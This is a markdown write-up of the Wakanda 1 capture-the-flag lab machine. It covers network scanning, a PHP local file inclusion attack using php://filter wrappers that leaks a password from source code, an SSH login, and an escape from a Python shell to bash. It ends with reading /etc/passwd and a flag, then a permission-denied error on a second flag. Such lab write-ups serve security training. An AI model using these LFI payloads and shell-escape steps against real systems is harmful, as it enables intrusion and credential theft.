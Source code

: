 # Wakanda 1


## [step 1] Finding Ip Address

> nmap [nmap -sT 192.168.0.0/24] 
  netdiscover -r 192.168.0.0/24 
  arp-scan -l

## [step 2] Finding Port 
> nmap [nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.56.101]
  nikto [nikto -h 192.168.56.101]

## [step 3] Directory
> directory buster [dirb  192.168.156.101]
  nikto [nikto -h 192.168.56.101]

## [step 4] web pages analysis and decoding
> curl 
  curl -I 192.168.56.101/fr.php
  curl -I 192.168.56.101/index.php
### As there was this in line in source page :  <!-- <a class="nav-link active" href="?lang=fr">Fr/a> -->
#### The commented HTML seems to suggest LFI vulnerability is present with the lang parameter.
#### So try this: 
> [http://192.168.56.101/index.php] this is homepage.So we'll try  LFI/RFI attack,using Wrappers.
Wrapper php://filter
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

> After [http://192.168.56.101/index.php?lang=php://filter/convert.base64-encode/resource=index]
there are  encoded words.

> curl http://192.168.56.101/index.php?lang=php://filter/convert.base64-encode/resource=index | head -n 1 | base64 -d
We'll get php code in which there is password.

## [Step 5] ssh
> try login through ssh
> ssh -p3333 mamadou@192.168.56.101

### we'll get a python shell after login

``` 
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Aug  3 15:53:29 2018 from 192.168.56.1
Python 2.7.9 (default, Jun 29 2016, 13:08:31) 
[GCC 4.9.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```

> try to get bash shell by python command : [>>> import os; os.system("/bin/bash")
]
```
mamadou@Wakanda1:~$ ls
flag1.txt
mamadou@Wakanda1:~$ cat flag.txt
cat: flag.txt: No such file or directory
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
mamadou@Wakanda1:~$ ls
flag1.txt
mamadou@Wakanda1:~$ ls -la
total 24
drwxr-xr-x 2 mamadou mamadou 4096 Aug  5 02:24 .
drwxr-xr-x 4 root    root    4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root    root       9 Aug  5 02:24 .bash_history -> /dev/null
-rw-r--r-- 1 mamadou mamadou  220 Aug  1 13:15 .bash_logout
-rw-r--r-- 1 mamadou mamadou 3515 Aug  1 13:15 .bashrc
-rw-r--r-- 1 mamadou mamadou   41 Aug  1 15:52 flag1.txt
-rw-r--r-- 1 mamadou mamadou  675 Aug  1 13:15 .profile
mamadou@Wakanda1:~$ pwd
/home/mamadou
```
```
mamadou@Wakanda1:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
avahi-autoipd:x:107:113:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
mamadou:x:1000:1000:Mamadou,,,,Developper:/home/mamadou:/usr/bin/python
devops:x:1001:1002:,,,:/home/devops:/bin/bash
mamadou@Wakanda1:~$ cat flag1.txt

Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc
mamadou@Wakanda1:~$ locate flag2.txt
/home/devops/flag2.txt
mamadou@Wakanda1:~$ cat /home/devops/flag2.txt
cat: /home/devops/flag2.txt: Permission denied
mamadou@Wakanda1:~$ ls -al /home/devops/
total 24
drwxr-xr-x 2 devops developer 4096 Aug  5 02:25 .
drwxr-xr-x 4 root   root      4096 Aug  1 15:23 ..
lrwxrwxrwx 1 root   root         9 Aug  5 02:25 .bash_history -> /dev/null
-rw-r--r-- 1 devops developer  220 Aug  1 15:23 .bash_logout
-rw-r--r-- 1 devops developer 3515 Aug  1 15:23 .bashrc
-rw-r----- 1 devops developer   42 Aug  1 15:57 flag2.txt
-rw-r--r-- 1 devops developer  675 Aug  1 15:23 .profile
mamadou@Wakanda1:~$ id
uid=1000(mamadou) gid=1000(mamadou) groups=1000(mamadou)
mamadou@Wakanda1:~$ 
```





